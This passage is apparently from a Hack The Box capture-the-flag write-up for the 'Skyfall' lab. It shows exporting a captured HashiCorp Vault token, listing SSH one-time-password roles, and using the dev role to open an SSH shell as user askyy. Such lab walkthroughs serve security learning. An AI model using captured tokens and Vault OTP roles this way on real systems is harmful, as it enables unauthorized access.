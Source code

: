Now, let's connect to Vault using the token we got before. [Reference](https://developer.hashicorp.com/vault/tutorials/getting-started/getting-started-dev-server#set-environment-variables) First, export the **vault address** in an environmental variable. This will configure the Vault client to talk to the dev server. Then, export the Vault Token in another environmental variable. After setting both values, check the server status to see if it is running or not.

```bash
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
$ ./vault status
```
  
And Vault is connected successfully.

![Pasted image 20240207203804](https://github.com/iammR0OT/HTB/assets/74102381/d2c2c072-71f7-4c55-9823-977ddd16ce4f)
  
After going through the documentation of Vault, I discovered a page named **One-Time SSH Password**.
#### One-Time SSH Passwords
  
The **One-Time SSH Password** (OTP) SSH secrets engine type allows a Vault server to issue a **One-Time Password** every time a client wants to **SSH** into a remote host using a helper command on the remote host to perform verification. [Reference](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords)
  
To mount the secrets engine to our Vault so that we can request for **OTP** and login through SSH, we need to perform the following steps:
```
$ ./vault secrets enable ssh
Success! Enabled the ssh secrets engine at: ssh/
```
 
Let's first list the SSH roles in our current Vault.

```bash
$ ./vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

We found two `ssh/roles` in Vault. Let's create an SSH session. 
- admin_otp_key_role
- dev_otp_key_role
## Shell as askyy
  
I tried to create an SSH session through the `admin_otp_key_role`, but it didn't work here. So, I moved to `dev_otp_key_role`.

```bash
$ ./vault ssh -role dev_otp_key_role -mode otp askyy@10.10.11.254
```
  
I got a shell as the **askyy** user.
